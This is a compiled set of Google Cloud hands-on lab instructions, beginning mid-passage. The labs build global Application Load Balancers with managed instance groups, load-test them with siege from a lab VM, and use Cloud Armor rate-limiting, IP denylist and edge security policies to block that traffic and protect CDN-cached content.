europe-west1-mig) and the Server Location (a zone ineurope-west1).
Note: The Hostname and Server Location identifies where the HTTP Load Balancer sends traffic.
Which of these fields identify the region of the backend?
Hostname
Server Location
Client IP
Submit
Task 3. Configure the HTTP Load Balancer
Configure the HTTP Load Balancer to balance traffic between the two backends (us-east4-mig in us-east4 and europe-west1-mig in europe-west1), as illustrated in the network diagram:
Start the configuration
In the Cloud Console, click Navigation menu (
Under Application Load Balancer (HTTP/S), click Next.
Under Under Public facing or internal only, select Public facing (external), click Next.
Under Global or single region deployment, select Best for global workloads, click Next.
Under Load balancer generation, select Global external Application Load Balancer, click Next.
Click Configure.
For Load Balancer Name, type http-lb.
Configure the backend
Backend services direct incoming traffic to one or more attached backends. Each backend is composed of an instance group and additional serving capacity metadata.
Click on Backend configuration.
Click Backend services & backend buckets dropdown, click Create a backend service.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Name http-backend Instance group us-east4-migPort numbers 80 Balancing mode Rate Maximum RPS 50 Capacity 100 Note: This configuration means that the load balancer attempts to keep each instance of
us-east4-mig at or below 50 requests per second (RPS).Click Done.
Click Add a backend.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Instance group europe-west1-migPort numbers 80 Balancing mode Utilization Maximum backend utilization 80 Capacity 100 Note: This configuration means that the load balancer attempts to keep each instance of
europe-west1-mig at or below 80% CPU utilization.Click Done.
For Health Check, select Create a health check.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Name http-health-check Protocol TCP Port 80 Note: Health checks determine which instances receive new connections. This HTTP health check polls instances every 5 seconds, waits up to 5 seconds for a response and treats 2 successful or 2 failed attempts as healthy or unhealthy, respectively.
Click Save.
Check the Enable Logging box.
Set the Sample Rate to
1:Click Create to create the backend service, click OK.
Configure the frontend
The host and path rules determine how your traffic will be directed. For example, you could direct video traffic to one backend and static traffic to another backend. However, you are not configuring the Host and path rules in this lab.
Click on Frontend configuration.
Specify the following, leaving all other values at their defaults:
Property Value (type value or select option as specified) Protocol HTTP IP version IPv4 IP address Ephemeral Port 80 Click Done.
Click Add Frontend IP and port.
Specify the following, leaving all other values at their defaults:
Property Value (type value or select option as specified) Protocol HTTP IP version IPv6 IP address Auto-allocate Port 80 Click Done.
Note: HTTP(S) load balancing supports both IPv4 and IPv6 addresses for client traffic. Client IPv6 requests are terminated at the global load balancing layer, then proxied over IPv4 to your backends.
Review and create the HTTP Load Balancer
Click Review and finalize.
Review the Backend services and Frontend.
Click Create.
Wait for the load balancer to be created.
Click on the name of the load balancer (http-lb).
Note the IPv4 and IPv6 addresses of the load balancer for the next task. They will be referred to as
[LB_IP_v4]and[LB_IP_v6], respectively.
Note: The IPv6 address is the one in hexadecimal format.
Click Check my progress to verify the objective.
Configure the HTTP Load Balancer
Check my progress
Task 4. Test the HTTP Load Balancer
Now that you created the HTTP Load Balancer for your backends, verify that traffic is forwarded to the backend service.
The HTTP load balancer should forward traffic to the region that is closest to you.
True
False
Access the HTTP Load Balancer
To test IPv4 access to the HTTP Load Balancer, open a new tab in your browser and navigate to
http://[LB_IP_v4]. Make sure to replace[LB_IP_v4]with the IPv4 address of the load balancer.
Note: It might take up to 5 minutes to access the HTTP Load Balancer. In the meantime, you might get a 404 or 502 error. Keep trying until you see the page of one of the backends.
Note: Depending on your proximity to us-east4 and europe-west1, your traffic is either forwarded to a us-east4-mig or europe-west1-mig instance.
If you have a local IPv6 address, try the IPv6 address of the HTTP Load Balancer by navigating to http://[LB_IP_v6]. Make sure to replace [LB_IP_v6] with the IPv6 address of the load balancer.
Stress test the HTTP Load Balancer
Create a new VM to simulate a load on the HTTP Load Balancer using siege. Then, determine if traffic is balanced across both backends when the load is high.
In the Console, navigate to Navigation menu (
Click Create instance.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name siege-vm Region us-central1Zone us-central1-bSeries E2
Note: Given that us-central1 is closer to us-east4 than to europe-west1, traffic should be forwarded only to us-east4-mig (unless the load is too high).
Click Create.
Wait for the siege-vm instance to be created.
For siege-vm, click SSH to launch a terminal and connect.
Run the following command, to install siege:
xxxxxxxxxxsudo apt-get -y install siege
Copied!
Click Check my progress to verify the objective.
Test the HTTP Load Balancer
Check my progress
To store the IPv4 address of the HTTP Load Balancer in an environment variable, run the following command, replacing
[LB_IP_v4]with the IPv4 address:
xxxxxxxxxxexport LB_IP=[LB_IP_v4]
Copied!
To simulate a load, run the following command:
xxxxxxxxxxsiege -c 250 http://$LB_IP
Copied!
The output should look like this:
xxxxxxxxxxNew configuration template added to /home/cloudcurriculumdeveloper/.siegeRun siege -C to view the current settings in that file
In the Cloud Console, on the Navigation menu (
Click Backends.
Click http-backend.
Navigate to
http-lb.Click on the Monitoring tab.
Monitor the Frontend Location (Total inbound traffic) between North America and the two backends for 2 to 3 minutes.
At first, traffic should just be directed to us-east4-mig but as the RPS increases, traffic is also directed to europe-west1-mig.
This demonstrates that by default traffic is forwarded to the closest backend but if the load is very high, traffic can be distributed across the backends.
Return to the SSH terminal of siege-vm.
Press CTRL+C to stop the siege.
Task 5. Create Cloud Armor rate limiting policy
In this section you will use Cloud Armor to denylist the siege-vm from accessing the HTTP Load Balancer by setting a rate limiting policy.
In Cloud Shell, create security policy via gcloud:
xxxxxxxxxxgcloud compute security-policies create rate-limit-siege \--description "policy for rate limiting"
Copied!
Next, add a rate limiting rule:
xxxxxxxxxxgcloud beta compute security-policies rules create 100 \--security-policy=rate-limit-siege \--expression="true" \--action=rate-based-ban \--rate-limit-threshold-count=50 \--rate-limit-threshold-interval-sec=120 \--ban-duration-sec=300 \--conform-action=allow \--exceed-action=deny-404 \--enforce-on-key=IP
Copied!
Attach the security policy to the backend service http-backend:
xxxxxxxxxxgcloud compute backend-services update http-backend \--security-policy rate-limit-siege --global
Copied!
In the Console, navigate to Navigation menu > Network Security > Cloud Armor.
Click
rate-limit-siege. Your policy should resemble the following:

Click Check my progress to verify the objective.
Create Cloud Armor Rate Limiting Policy
Check my progress
Task 6. Verify the security policy
Return to the SSH terminal of siege-vm.
Run a curl against the LB IP to verify you can still connect to it, should receive a 200 response:
xxxxxxxxxxcurl http://$LB_IP
Copied!
In the SSH terminal of siege-vm, to simulate a load, run the following command:
xxxxxxxxxxsiege -c 250 http://$LB_IP
Copied!
The command will not generate any output.
Explore the security policy logs to determine if this traffic is also blocked.
In the Console, navigate to Navigation menu > Network Security > Cloud Armor policies.
Click rate-limit-siege.
Click Logs.
Click View policy logs.
On the Logging page, make sure to clear all the text in the Query preview.
Select resource to Application Load Balancer > http-lb-forwarding-rule > http-lb then click Apply.
Now click Run Query.
Expand a log entry in Query results.
Expand httpRequest.
The request should be from the siege-vm IP address. If not, expand another log entry.
Expand
jsonPayload.Expand
enforcedSecurityPolicy.
Notice that the configuredAction is to DENY with the name rate-limit-siege.
Note: Cloud Armor security policies create logs that can be explored to determine when traffic is denied and when it is allowed, along with the source of the traffic.
Congratulations!
You configured an HTTP Load Balancer with backends in us-east4 and europe-west1. Then, you stress tested the Load Balancer with a VM and denylisted the IP address via rate limiting with Cloud Armor. You were able to explore the security policy logs to identify why the traffic was blocked.
LAB - Application Load Balancer with Cloud Armor
Overview
Google Cloud Application Load Balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an Application Load Balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.
Cloud Armor IP allowlist/denylist enable you to restrict or allow access to your Application Load Balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your Virtual Private Cloud (VPC) networks.
In this lab, you configure an Application Load Balancer with global backends, as shown in the diagram below. Then, you stress test the Load Balancer and denylist the stress test IP with Cloud Armor.
Objectives
In this lab, you learn how to perform the following tasks:
Create HTTP and health check firewall rules
Configure two instance templates
Create two managed instance groups
Configure an Application Load Balancer with IPv4 and IPv6
Stress test an Application Load Balancer
Denylist an IP address to restrict access to an Application Load Balancer
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxx"Username"Copied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx"Password"Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Task 1. Configure HTTP and health check firewall rules
Configure firewall rules to allow HTTP traffic to the backends and TCP traffic from the Google Cloud health checker.
Create the HTTP firewall rule
Create a firewall rule to allow HTTP traffic to the backends.
In the Cloud console, navigate to Navigation menu (
Notice the existing ICMP, internal, RDP, and SSH firewall rules.
Each Google Cloud project starts with the default network and these firewall rules.
Click Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name default-allow-http Network default Targets Specified target tags Target tags http-server Source filter IPv4 Ranges Source IPv4 ranges 0.0.0.0/0 Protocols and ports Specified protocols and ports, and then check TCP, type: 80
Make sure to include the /0 in the Source IPv4 ranges to specify all networks.
Click Create.
Create the health check firewall rules
Health checks determine which instances of a load balancer can receive new connections. For Application Load Balancing, the health check probes to your load balanced instances come from addresses in the ranges 130.211.0.0/22 and 35.191.0.0/16. Your firewall rules must allow these connections.
Still in the Firewall policies page, click Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name default-allow-health-check Network default Targets Specified target tags Target tags http-server Source filter IPv4 Ranges Source IPv4 ranges 130.211.0.0/22,35.191.0.0/16Protocols and ports Specified protocols and ports, and then check TCP Note: Make sure to enter the two Source IPv4 ranges one-by-one and press SPACE in between them.
Click Create.
Click Check my progress to verify the objective.
Configure HTTP and health check firewall rules
Check my progress
Task 2. Configure instance templates and create instance groups
A managed instance group uses an instance template to create a group of identical instances. Use these to create the backends of the Application Load Balancer.
Configure the instance templates
An instance template is an API resource that you use to create VM instances and managed instance groups. Instance templates define the machine type, boot disk image, subnet, labels, and other instance properties.
Create one instance template for Region 1 and one for Region 2.
In the Cloud console, go to Navigation menu (
For Name, type
Region 1-template.For Location, Select Global.
For Series, select E2.
For Machine Type, select e2-micro.
Click Advanced Options.
Click Networking. Set the following value and leave all other values at their defaults:
Property Value (type value or select option as specified) Network tags http-server Click default under Network interfaces. Set the following values and leave all other values at their defaults:
Property Value (type value or select option as specified) Network default Subnetwork default Region 1Click Done.
The network tag http-server ensures that the HTTP and Health Check firewall rules apply to these instances.
Click the Management tab.
Under Metadata, click + ADD ITEM and specify the following:
Key Value startup-script-url gs://cloud-training/gcpnet/httplb/startup.sh
The startup-script-url specifies a script that executes when instances are started. This script installs Apache and changes the welcome page to include the client IP and the name, region, and zone of the VM instance. Feel free to explore this script.
Click Create.
Wait for the instance template to be created.
Now create another instance template for subnet-b by copying Region 1-template:
Click on
Region 1-template and then click on the +CREATE SIMILAR option from the top.For Name, type
Region 2-template.Ensure Location is selected Global.
Click Advanced Options.
Click Networking.
Ensure http-server is added as a network tag.
In Network interfaces, for Subnetwork, select default (
Region 2).Click Done.
Click Create.
Create the managed instance groups
Create a managed instance group in Region 1 and one in Region 2.
Still in Compute Engine, click Instance groups in the left menu.
Click Create instance group.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name Region 1-mig (if required, remove extra space from the name)Instance template Region 1-templateLocation Multiple zones Region Region 1Minimum number of instances 1 Maximum number of instances 2 Autoscaling signals > Click dropdown > Signal type CPU utilization Target CPU utilization 80, click Done. Initialization period 45
Managed instance groups offer autoscaling capabilities that allow you to automatically add or remove instances from a managed instance group based on increases or decreases in load. Autoscaling helps your applications gracefully handle increases in traffic and reduces cost when the need for resources is lower. You just define the autoscaling policy and the autoscaler performs automatic scaling based on the measured load.
Click Create.
Now repeat the same procedure to create a second instance group for Region 2-mig in Region 2:
Click Create Instance group.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name Region 2-migInstance template Region 2-templateLocation Multiple zones Region Region 2Minimum number of instances 1 Maximum number of instances 2 Autoscaling signals > Click dropdown > Signal type CPU utilization Target CPU utilization 80, click Done. Initialization period 45 Click Create.
Click Check my progress to verify the objective.
Configure instance templates and instance group
Check my progress
Verify the backends
Verify that VM instances are being created in both regions and access their HTTP sites.
Still in Compute Engine, click VM instances in the left menu.
Notice the instances that start with
Region 1-mig andRegion 2-mig.These instances are part of the managed instance groups.
Click on the External IP of an instance of
Region 1-mig.You should see the Client IP (your IP address), the Hostname (starts with
Region 1-mig) and the Server Location (a zone inRegion 1).Click on the External IP of an instance of
Region 2-mig.You should see the Client IP (your IP address), the Hostname (starts with
Region 2-mig) and the Server Location (a zone inRegion 2).
Note: The Hostname and Server Location identifies where the Application Load Balancer sends traffic.
Which of these fields identify the region of the backend?
Server Location
Client IP
Hostname
Submit
Task 3. Configure the Application Load Balancer
Configure the Application Load Balancer to balance traffic between the two backends (Region 1-mig in Region 1 and Region 2-mig in Region 2), as illustrated in the network diagram:
Start the configuration
In the Cloud console, click Navigation menu (
click Create load balancer.
Under Application Load Balancer HTTP(S), click Next.
For Public facing or internal, select Public facing (external) and click Next.
For Global or single region deployment, select Best for global workloads and click Next.
For Create load balancer, click Configure.
Set Load Balancer Name to
http-lb.
Configure the frontend
The host and path rules determine how your traffic will be directed. For example, you could direct video traffic to one backend and static traffic to another backend. However, you are not configuring the Host and path rules in this lab.
Click on Frontend configuration.
Specify the following, leaving all other values at their defaults:
Property Value (type value or select option as specified) Protocol HTTP IP version IPv4 IP address Ephemeral Port 80 Click Done.
Click Add Frontend IP and port.
Specify the following, leaving all other values at their defaults:
Property Value (type value or select option as specified) Protocol HTTP IP version IPv6 IP address Auto-allocate Port 80 Click Done.
Application Load Balancing supports both IPv4 and IPv6 addresses for client traffic. Client IPv6 requests are terminated at the global load balancing layer, then proxied over IPv4 to your backends.
Configure the backend
Backend services direct incoming traffic to one or more attached backends. Each backend is composed of an instance group and additional serving capacity metadata.
Click on Backend configuration.
For Backend services & backend buckets, click Create a backend service.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Name http-backend Instance group Region 1-migPort numbers 80 Balancing mode Rate Maximum RPS 50 Capacity 100
This configuration means that the load balancer attempts to keep each instance of Region 1-mig at or below 50 requests per second (RPS).
Click Done.
Click Add a backend.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Instance group Region 2-migPort numbers 80 Balancing mode Utilization Maximum backend utilization 80 Capacity 100
This configuration means that the load balancer attempts to keep each instance of Region 2-mig at or below 80% CPU utilization.
Click Done.
For Health Check, select Create a health check.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Name http-health-check Protocol TCP Port 80
Health checks determine which instances receive new connections. This HTTP health check polls instances every 5 seconds, waits up to 5 seconds for a response and treats 2 successful or 2 failed attempts as healthy or unhealthy, respectively.
Click Save.
Check the Enable Logging box.
Set the Sample Rate to
1.Click Create to create the backend service.
Click Ok.
Review and create the Application Load Balancer
Click on Review and finalize.
Review the Backend and Frontend services.
Click on Create.
Wait for the load balancer to be created.
Click on the name of the load balancer (http-lb).
Note the IPv4 and IPv6 addresses of the load balancer for the next task. They will be referred to as
[LB_IP_v4]and[LB_IP_v6], respectively.
Note: The IPv6 address is the one in hexadecimal format.
Click Check my progress to verify the objective.
Configure the Application Load Balancer
Check my progress
Task 4. Test the Application Load Balancer
Now that you created the Application Load Balancer for your backends, verify that traffic is forwarded to the backend service.
The Application Load Balancer should forward traffic to the region that is closest to you.
True
False
Access the Application Load Balancer
To test IPv4 access to the Application Load Balancer, open a new tab in your browser and navigate to http://[LB_IP_v4]. Make sure to replace [LB_IP_v4] with the IPv4 address of the load balancer.
Note: It might take up to 5 minutes to access the Application Load Balancer. In the meantime, you might get a 404 or 502 error. Keep trying until you see the page of one of the backends.
Note: Depending on your proximity to Region 1 and Region 2, your traffic is either forwarded to a Region 1-mig or Region 2-mig instance.
If you have a local IPv6 address, try the IPv6 address of the Application Load Balancer by navigating to http://[LB_IP_v6]. Make sure to replace [LB_IP_v6] with the IPv6 address of the load balancer.
Stress test the Application Load Balancer
Create a new VM to simulate a load on the Application Load Balancer using siege. Then, determine if traffic is balanced across both backends when the load is high.
In the console, navigate to Navigation menu (
Click Create instance.
In the Machine configuration:
Select the following values:
Property Value (type value or select option as specified) Name siege-vm Region Region 3Zone Zone 3Series E2
Given that Region 3 is closer to Region 1 than to Region 2, traffic should be forwarded only to Region 1-mig (unless the load is too high).
Click Create.
Wait for the siege-vm instance to be created.
For siege-vm, click SSH to launch a terminal and connect.
Run the following command, to install siege:
xxxxxxxxxxsudo apt-get -y install siege
Copied!
To store the IPv4 address of the Application Load Balancer in an environment variable, run the following command, replacing
[LB_IP_v4]with the IPv4 address:
xxxxxxxxxxexport LB_IP=[LB_IP_v4]
Copied!
To simulate a load, run the following command:
xxxxxxxxxxsiege -c 150 -t120s http://$LB_IP
Copied!
In the Cloud console, click Navigation menu (
Click Backends.
Click http-backend.
Navigate to http-lb.
Click on the Monitoring tab.
Monitor the Frontend Location (Total inbound traffic) between North America and the two backends for 2 to 3 minutes.
At first, traffic should just be directed to Region 1-mig but as the RPS increases, traffic is also directed to Region 2.
This demonstrates that by default traffic is forwarded to the closest backend but if the load is very high, traffic can be distributed across the backends.
Return to the SSH terminal of siege-vm.
Press CTRL+C to stop siege if it's still running.
The output should look like this:
xxxxxxxxxxNew configuration template added to /home/student-02-dd02c94b8808/.siegeRun siege -C to view the current settings in that file{ "transactions": 24729,"availability": 100.00,"elapsed_time": 119.07,"data_transferred": 3.77,"response_time": 0.66,"transaction_rate": 207.68,"throughput": 0.03,"concurrency": 137.64,"successful_transactions": 24729,"failed_transactions": 0,"longest_transaction": 10.45,"shortest_transaction": 0.03}
Task 5. Denylist the siege-vm
Use Cloud Armor to denylist the siege-vm from accessing the Application Load Balancer.
Create the security policy
Create a Cloud Armor security policy with a denylist rule for the siege-vm.
In the console, navigate to Navigation menu (
Note the External IP of the siege-vm. This will be referred to as
[SIEGE_IP].
Note: There are ways to identify the external IP address of a client trying to access your Application Load Balancer. For example, you could examine traffic captured by VPC Flow Logs in BigQuery to determine a high volume of incoming requests.
In the Cloud console, click Navigation menu (
Click Create policy.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name denylist-siege Default rule action Allow Click Next step.
Click Add a rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Condition > Match Enter the SIEGE_IP Action Deny Response code 403 (Forbidden) Priority 1000 Click Save Change to Rule.
Click Next step.
Click Add Target.
For Type, select Backend service (external application load balancer).
For Target, select http-backend and if prompted confirm Replace.
Click Create policy.
Note: Alternatively, you could set the default rule to Deny and only allowlist or allow traffic from authorized users/IP addresses.
Wait for the policy to be created before moving to the next step.
Click Check my progress to verify the objective.
Denylist the siege-vm
Check my progress
Verify the security policy
Verify that the siege-vm cannot access the Application Load Balancer.
Return to the SSH terminal of siege-vm.
To access the load balancer, run the following:
xxxxxxxxxxcurl http://$LB_IP
Copied!
The output should look like this:
xxxxxxxxxx<!doctype html><meta charset="utf-8"><meta name=viewport content="width=device-width, initial-scale=1"><title>403</title>403 Forbidden
Note: It might take a couple of minutes for the security policy to take effect. If you are able to access the backends, keep trying until you get the 403 Forbidden error.
Open a new tab in your browser and navigate to
http://[LB_IP_v4]. Make sure to replace[LB_IP_v4]with the IPv4 address of the load balancer.
Note: You can access the Application Load Balancer from your browser because of the default rule to allow traffic; however, you cannot access it from the siege-vm because of the deny rule that you implemented.
Back in the SSH terminal of siege-vm, to simulate a load, run the following command:
xxxxxxxxxxsiege -c 150 -t120s http://$LB_IP
Copied!
The command will not generate any output.
Explore the security policy logs to determine if this traffic is also blocked.
In the console, navigate to Navigation menu > Network Security > Cloud Armor Policies.
Click denylist-siege.
Click Logs.
Click View policy logs.
On the Logging page, make sure to clear all the text in the Query preview. Select resource to Application Load Balancer > http-lb-forwarding-rule > http-lb then click Apply.
Now click Run Query.
Expand a log entry in Query results.
Expand httpRequest.
The request should be from the siege-vm IP address. If not, expand another log entry.
Expand jsonPayload.
Expand enforcedSecurityPolicy.
Notice that the configuredAction is to
DENYwith the namedenylist-siege.
Cloud Armor security policies create logs that can be explored to determine when traffic is denied and when it is allowed, along with the source of the traffic.
Congratulations!
You configured an Application Load Balancer with backends in Region 1 and Region 2. Then, you stress tested the Load Balancer with a VM and denylisted the IP address of that VM with Cloud Armor. You were able to explore the security policy logs to identify why the traffic was blocked.
LAB - Defending Edge Cache with Cloud Armor
Overview
Google Cloud Armor edge security policies allow you to restrict access to cached objects on Cloud CDN (Content Delivery Network) and Cloud Storage. Edge security policies are deployed and enforced at the outermost perimeter of Google's network, upstream of where the Cloud CDN cache resides. Reasons to do this include ensuring that your users do not access objects in storage buckets from restricted geographies, or ensuring that your media distribution is filtering on the geographies that you have a license to do so.
In this lab you create a Google Cloud Storage bucket, upload an image to it, bind it to a load balancer, and then enable Cloud CDN and Cloud Armor edge security policies on it.
What you'll learn
In this lab, you learn how to:
Set up a Cloud Storage Bucket with cacheable content
Create an edge security policy to protect the content
Validate that the edge security policy is working as expected
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxx"Username"Copied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx"Password"Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Before you begin
In Cloud Shell, set your Project ID and create an environment variable for it:
xxxxxxxxxxexport PROJECT_ID=$(gcloud config get-value project)echo $PROJECT_IDgcloud config set project $PROJECT_ID
Copied!
Task 1. Create a Cloud Storage bucket and upload an object
The Cloud Storage bucket will be the origin source for Cloud CDN.
In the console, go to Navigation menu (
To create a new Cloud Storage bucket, click CREATE.
Set the bucket name as
Bucket NameClick Continue.
For Location type, select
Region, and chooseBucket RegionClick Continue.
The default storage class for your bucket is
Standard. Click Continue.Uncheck
Enforce public access prevention on this bucketcheckbox under Prevent public access.Choose Fine-grained under Access Control.
Click Continue.
Click Create.
That's it — you've just created a Cloud Storage bucket!
Upload an Object to the bucket
Now upload an object into the bucket, which you will use later. By default, Cloud Storage buckets are private. As part of this lab, you will make the object available to the Internet.
Run the following command in Cloud Shell, to download an image to Cloud Shell. A Google image from the Google homepage is used for this lab.
xxxxxxxxxxwget --output-document google.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
Copied!
Use the
gsutil cpcommand to upload the image from the Cloud Shell to the bucket you created:
xxxxxxxxxxgsutil cp google.png gs://Bucket Name
Copied!
Remove the downloaded image from Cloud Shell:
xxxxxxxxxxrm google.png
Copied!
Locate the object you have uploaded to the bucket by navigating to Cloud Storage > Buckets >
Bucket Name.Now, click on the three dots on the right side of the object you uploaded and click Edit access.
Click on Add Entry and set the entity as Public from the drop-down list.
Click Save.
Click Check my progress to verify the objective.
Create a Cloud Storage Bucket and upload an object
Check my progress
Task 2. Create a Load Balancer
Cloud CDN and Cloud Armor are components that can be tied to Google's global Cloud Load Balancing. In this section, you create an HTTP Load balancer.
In the Navigation menu (
Click +CREATE LOAD BALANCER.
Under Type of load balancer, select Application Load Balancer (HTTP/HTTPS) and click NEXT.
Under Public facing or internal, select Public facing (external) and click NEXT.
For Global or single region deployment, select Best for global workloads and click NEXT.
For Load balancer generation, select Global external Application Load Balancer and click NEXT.
Click CONFIGURE button.
Name the load balancer as
edge-cache-lb.
Create frontend configuration
To create the frontend configuration:
Click on Frontend configuration.
For the frontend configuration use HTTP (though HTTPS also works if you have a certificate) and an ephemeral IP address and ensure that you have selected the premium tier network. This is by default.
Click Done.
Create backend configuration
To create the backend configuration:
Click on Backend configuration.
For Backend services & backend buckets, click Create a backend bucket.
Set the Backend bucket name to
lb-backend-bucket.In the next field, select the Cloud Storage bucket created earlier by clicking the Browse button.
Leave all other values at their defaults.
Click Create.
Create host and path rules
To create host and path rules:
Click on Routing rules on the left.
Select simple host and path rule under Mode to send any request to the bucket. This is the default option.
Review and create the HTTP Load Balancer
To review and create the HTTP Load Balancer:
Click on Review and finalize.
Review the Backend services and Frontend.
Click on Create.
Get Load Balancer IP
To get the Load Balancer IP from the console:
Click the load balancer name in the list of load balancers for the project. Note the IPv4 address of the load balancer for the next task. Refer to it as
[LOAD_BALANCER_IP].
Query the Load Balancer
After a couple minutes, query the load balancer for the object you uploaded. You will need the load balancer IP address and the name of the image.
Run the following from CloudShell and replace the LOAD_BALANCER_IP with the IPv4 address of the load balancer:
xxxxxxxxxxcurl -svo /dev/null http://LOAD_BALANCER_IP/google.png
Copied!
Note: It might take up to 5 minutes to access the HTTP Load Balancer.
Output:
xxxxxxxxxxstudent-cloudshell% curl -svo /dev/null http://34.98.81.123/google.png* Trying 34.98.81.123...* TCP_NODELAY set* Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)> GET /google.png HTTP/1.1> Host: YOUR_IP> User-Agent: curl/7.64.1> Accept: */*>< HTTP/1.1 200 OK< X-GUploader-UploadID: ADPycdtoILI76KVsvBvdVGvSfzaxys1m3zYqCepBrmJxAI48ni24cWCRIdNu-53PX3DS6iycxp6xwFbMpwtcHHZQUQmEBxAgng< Expires: Mon, 13 Dec 2021 22:58:26 GMT< Date: Mon, 13 Dec 2021 21:58:26 GMT< Cache-Control: public, max-age=3600< Last-Modified: Mon, 13 Dec 2021 21:45:57 GMT< ETag: "8f9327db2597fa57d2f42b4a6c5a9855"< x-goog-generation: 1639431957957903< x-goog-metageneration: 2< x-goog-stored-content-encoding: identity< x-goog-stored-content-length: 5969< Content-Type: image/png< x-goog-hash: crc32c=TeiHTA==< x-goog-hash: md5=j5Mn2yWX+lfS9CtKbFqYVQ==< x-goog-storage-class: STANDARD< Accept-Ranges: bytes< Content-Length: 5969< Server: UploadServer
Run a few queries with this command:
xxxxxxxxxxfor i in `seq 1 50`; do curl http://LOAD_BALANCER_IP/google.png; done
Copied!
Confirm content served by Cloud CDN
Validate that your content is being served from the CDN via CDN or Load Balancing Monitoring by navigating to Network Services > Cloud CDN.
You should be able to get close to a 100% hit ratio.
Click Check my progress to verify the objective.
Create a Load Balancer
Check my progress
Task 3. Delete the object from Cloud Storage bucket
Now that the cache is populated, delete the object from the bucket. This will reinfore that you are applying the policy to the cache and not the backend.
In the Navigation menu (
Bucket Name.Select the object and delete it by clicking the Delete button at the top.
Click Delete at the prompt.
Click Check my progress to verify the objective.
Delete the object from Cloud Storage bucket
Check my progress
Task 4. Create an edge security policy
Cloud Armor policies are substantiated outside of the HTTP Load Balancer. Once the Cloud Armor policy is deployed, you can then associate it with one or more HTTP Load Balancer Backend Service or Bucket resources, referred to as a Target.
In the Navigation menu (
Set the following values, leave all other values at their defaults and click Next Step:
| Property | Value (type value or select option as specified) |
|---|---|
| Name | edge-security-policy |
| Policy type | Edge security policy |
| Default rule action | Deny |
In Apply policy to targets section, click Add Target and set the following values:
| Property | Value |
|---|---|
| Type 1 | Backend bucket (external application load balancer) |
| Backend Bucket target 1 | lb-backend-bucket |
Click Done.
Click Create Policy.
Validate Edge Security Policy
